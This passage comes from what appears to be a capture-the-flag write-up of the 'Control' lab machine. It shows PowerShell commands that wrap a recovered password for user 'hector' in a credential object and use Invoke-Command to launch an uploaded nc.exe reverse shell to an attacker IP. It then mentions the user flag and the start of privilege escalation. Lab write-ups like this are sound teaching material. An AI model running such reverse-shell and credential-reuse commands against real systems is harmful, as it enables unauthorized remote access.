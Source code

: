 Then executed the following commands to store the credentials `l33th4x0rhector` and username `hector`, and use `Invoke-Command` to start another reverse shell as the `hector` user using `nc.exe`, which is already uploaded to the server.

```
PS C:\inetpub\wwwroot> $password=ConvertTo-SecureString 'l33th4x0rhector' -Asplaintext -force
$password=ConvertTo-SecureString 'l33th4x0rhector' -Asplaintext -force

PS C:\inetpub\wwwroot> $creds=New-Object System.Management.Automation.PSCredential(".\hector", $password)
$creds=New-Object System.Management.Automation.PSCredential(".\hector", $password)

PS C:\inetpub\wwwroot> Invoke-Command -ComputerName . -Credential $creds -ScriptBlock {cmd /c "c:\inetpub\wwwroot\uploads\nc.exe 10.10.14.4 5555 -e cmd.exe"}
Invoke-Command -ComputerName . -Credential $creds -ScriptBlock {cmd /c "c:\inetpub\wwwroot\uploads\nc.exe 10.10.14.4 5555 -e cmd.exe"}
```

And I was able to gain remote access as the `hector` user.

<img src="/assets/img/posts/Control/nc-reverse-shell-hector.png" width="50%" height="50%">

And get the `user.txt` flag.

<img src="/assets/img/posts/Control/user-flag.png" width="50%" height="50%">

## Privilege Escalation

Now that we can copy files and we have an actual user account to run commands against, I retried some of the previous commands that failed, like `systeminfo`.
